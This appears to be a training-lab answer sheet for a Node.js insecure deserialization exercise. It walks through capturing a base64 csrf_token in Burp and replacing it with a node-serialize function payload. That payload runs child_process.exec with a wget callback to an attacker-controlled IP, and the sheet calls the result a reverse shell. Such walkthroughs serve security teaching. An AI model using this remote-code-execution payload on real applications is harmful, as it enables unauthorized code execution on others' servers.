

# Node Deserialization Answersheet

**Step 1:** Navigate to "Node Website: 16663" link

<br /> <br />

**Step 2:** Provide the required details and click on "Register" button

<br /> <br />

**Step 3:** Capture the request in Burp proxy and capture the csrf_token parameter

<br /> <br />

**Step 4:** Observer the value while converting the base64 information.

<br /> <br />

**Step 5:** Send the request to Burp repeater captured in **Step 3**

<br /> <br />

**Step 6:** Create the node js serealized payload using the following information.
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('wget http://192.168.X.206:9999/test /',function(error, stdout, stderr) {console.log(stdout) });\n }()"}
```

<br /> <br />

**Step 7:** Start the listener for reverse shell.

<br /> <br />

**Step 8:** Replace the payload generated in **Step 6** in csrf_token parameter 

<br /> <br />

**Step 9:** We are able to receive the request information in reverse shell

<br /> <br />